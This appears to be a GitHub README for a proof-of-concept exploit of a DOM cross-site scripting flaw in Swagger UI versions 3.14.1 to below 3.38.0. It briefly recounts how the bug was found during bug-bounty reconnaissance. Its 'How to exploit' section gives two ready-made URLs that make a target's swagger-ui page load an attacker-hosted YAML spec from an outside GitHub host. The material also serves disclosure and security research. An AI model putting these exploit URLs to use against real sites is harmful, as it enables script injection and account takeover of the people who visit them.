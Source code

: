 # Swagger-UI XSS

This repository is based on article created by Dawod Moczadlo: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

## Vulnerability

Swagger UI is a really common library used to display API specifications in a nice-looking UI used by almost every company. I stumbled upon it many times when doing recon on bug bounty targets and decided to take a closer look at it in Nov 2020. On Twitch, I streamed the process of reviewing and finding bugs in the library, but I found the final payload off camera after the stream. The bug that I found was a DOM XSS, and it turned out that there were a lot of vulnerable instances.

Affected version: >=3.14.1 < 3.38.0

## How to exploit

```
https://site.com/swagger-ui?configUrl=https://raw.githubusercontent.com/0xGabe/Swagger-UI-XSS/main/swagger-xss.yaml
```

```
https://site.com/swagger-ui?url=https://raw.githubusercontent.com/0xGabe/Swagger-UI-XSS/main/swagger-xss.yaml
```

